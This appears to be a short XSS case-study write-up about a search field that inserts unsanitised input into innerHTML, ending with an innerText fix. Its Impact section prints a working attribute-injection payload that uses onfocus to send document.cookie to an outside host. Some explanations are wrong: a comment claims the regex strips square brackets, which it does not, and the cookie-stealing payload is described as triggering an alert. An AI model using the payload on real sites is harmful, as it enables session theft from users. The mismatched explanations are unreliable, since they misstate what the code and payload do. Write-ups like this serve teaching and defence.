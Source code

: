 # XSS - Case Study #2 (Feb 16-22, 2025)

## Overview
Tweet URL: https://x.com/chux13786509/status/1892899459392045494

## Code Analysis
In this writeup, I'll analyze an XSS vulnerability discovered in the input field.

```javascript
userInput = userInput.replace(/[<>]/g, '');
// This replaces '<', '>', '[', and ']' with an empty string.
document.getElementById('result').innerHTML = `You searched for: <input type="text" value="${userInput}">`;
// This sets the innerHTML of the element with id 'result' to the value of the userInput.
// Here is the vulnerability. The value of the input field is set to the userInput without any sanitization.
```

## Impact
An attacker can inject malicious code into the input field and execute it in the context of the website.
An example of a payload that could be injected is: `" autofocus onfocus="fetch('https://vuln.me/#' + document.cookie)`
This payload would create an input field with the value `"` and autofocus on it, triggering an alert when the input field is focused.

## Solving the Issue
For this case, the issue can be solved by using the `innerText` property instead of `innerHTML` to set the value of the input field.
```javascript
document.getElementById('result').innerText = `You searched for: ${userInput}`;
```

## Conclusion
This case study demonstrates the importance of properly sanitizing user input to prevent XSS attacks.
